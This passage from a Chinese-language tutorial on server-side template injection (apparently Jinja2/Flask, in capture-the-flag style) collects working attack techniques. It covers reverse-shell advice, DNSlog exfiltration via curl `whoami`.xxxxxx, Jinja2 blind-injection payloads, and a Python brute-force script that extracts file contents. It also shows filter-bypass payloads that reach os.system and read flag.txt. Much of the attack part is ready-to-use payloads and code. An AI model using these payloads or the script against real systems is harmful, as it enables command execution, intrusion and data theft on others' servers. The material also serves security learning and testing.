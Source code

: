 - - 如果嫌一次一次转发太复杂也可以考虑直接反弹交互型shell。（反弹shell的操作网上也一大堆，这里就不多赘述了，可以参考：https://github.com/0xR0/shellver）

- dnslog转发

  - curl `whoami`.xxxxxx
  - 参考[巧用DNSlog实现无回显注入](https://www.cnblogs.com/afanti/p/8047530.html)

- 建立本地文件再读取

  - 这个也很好理解，针对system无回显，直接执行`ls > a.txt`，再用open进行读取

- curl上传文件

  - 这个方法没有实践过，某师傅博客上翻到的，记录一下或许今后就用到了。
  - [无回显代码执行利用方法](http://admintony.com/无回显代码执行利用方法.html)

  

- 盲注`{% if ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/test').read()[0:1]=='p' %}~p0~{% endif %}`类似SQL布尔注入，通过是否回显~p0~来判断注入是否成功。网上现有脚本如下：

```python
import requests

url = 'http://127.0.0.1:8080/'

def check(payload):
    postdata = {
        'exploit':payload
        }
    r = requests.post(url, data=postdata).content
    return '~p0~' in r

password  = ''
s = r'0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"$'()*+,-./:;<=>?@[\]^`{|}~'"_%'

for i in xrange(0,100):
    for c in s:
        payload = '{% if "".__class__.__mro__[2].__subclasses__()[40]("/tmp/test").read()['+str(i)+':'+str(i+1)+'] == "'+c+'" %}~p0~{% endif %}'
        if check(payload):
            password += c
            break
    print password
```

## 0x06 Bypass

这里记录一下常见的bypass思路

### 拼接

```
object.__subclasses__()[59].__init__.func_globals['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('ls')
().__class__.__bases__[0].__subclasses__()[40]('r','fla'+'g.txt')).read()
```
